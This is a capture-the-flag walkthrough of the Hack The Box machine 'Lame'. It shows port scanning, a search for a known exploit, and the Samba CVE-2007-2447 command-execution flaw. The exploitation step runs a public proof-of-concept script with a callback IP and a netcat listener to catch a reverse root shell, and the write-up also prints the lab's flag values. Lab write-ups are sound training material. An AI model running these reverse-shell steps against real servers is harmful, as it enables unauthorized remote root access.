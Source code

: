 ```yaml
---
title: "HTB - Lame"
author: Anubhavsingh Sawdagur
date: "2021-04-23"
subject: "Markdown"
subtitle: "10.10.10.3"
lang: "en"
output: 
  pdf_document:
    fig_caption: FALSE
---
```


# Lame - 10.10.10.3

## Enumeration

### Nmap

command: 

```bash
nmap -p- -Pn 10.10.10.3 -oA nmap/quick
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-23 04:56 EDT
Verbosity Increased to 1.
Connect Scan Timing: About 64.81% done; ETC: 05:04 (0:02:45 remaining)
Discovered open port 3632/tcp on 10.10.10.3
Verbosity Decreased to 0.
Nmap scan report for 10.10.10.3
Host is up (0.24s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 447.44 seconds
```



## Vulnerability Information 

Searchsploit is used to search for a known exploit the samba version **3.0.20**

command: 

```bash
searchsploit samba 3.0.20
```

![](Lame.assets/image-20210423035311257.png)

![](Lame.assets/image-20210423030333503.png)

After researching the exploit **Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution** , its CVE can be found on exploitdb website. 

[Link](https://www.exploit-db.com/exploits/16320 ):  https://www.exploit-db.com/exploits/16320 CVE: 2007-2447

![](Lame.assets/image-20210423040537738.png)

Upon searching for the CVE in [National Vulnerability Database](https://nvd.nist.gov/), it can be known on how does the payload work. 

[Link](https://nvd.nist.gov/vuln/detail/CVE-2007-2447): https://nvd.nist.gov/vuln/detail/CVE-2007-2447

![](Lame.assets/image-20210423041046805.png)

**Vulnerability Explanation:**

The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map  script" smb.conf option is enabled, and allows remote authenticated  users to execute commands via shell metacharacters involving other  MS-RPC functions in the (2) remote printer and (3) file share  management.

## Exploitation

When searching for **cve-2007-2447 exploit** on google, a github repository is found containing a python POC script.

![](Lame.assets/image-20210423050552798.png) 

[Link](https://nvd.nist.gov/vuln/detail/CVE-2007-2447): https://github.com/amriunix/CVE-2007-2447

![](Lame.assets/image-20210423050643210.png)

A python package needs to be installed to run the script.

command:

```bash
mkdir exploit
cd exploit
git clone https://github.com/amriunix/CVE-2007-2447
pip install --user pysmb
```

![](Lame.assets/image-20210423050855031.png)

After installing the exploit dependencies, the python exploit can now be ran.

command:

```bash
python3 usermap_script.py 10.10.10.3 139 10.10.14.3 8888
rlwrap nc -lvnp 8888
```

On the first pane, the exploit is being executed, and on the second one, a connection is received coming from the target.

![](Lame.assets/image-20210423055920733.png)

After exploiting, the shell is already running as root.

### User.txt

```bash
find /home -type f
```

![](Lame.assets/image-20210423060412613.png)

the **user.txt** file is located in user **makis** home folder.

```bash
cat /home/makis/user.txt
```

![](Lame.assets/image-20210423060516976.png)

> user.txt flag: `43bf1c6bb6f868ad4e55452e7db7eeb1`

### Root.txt

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```

![](Lame.assets/image-20210423060921071.png)

> root.txt flag: `a8221b5e4e0a0535e87eae265190c232`

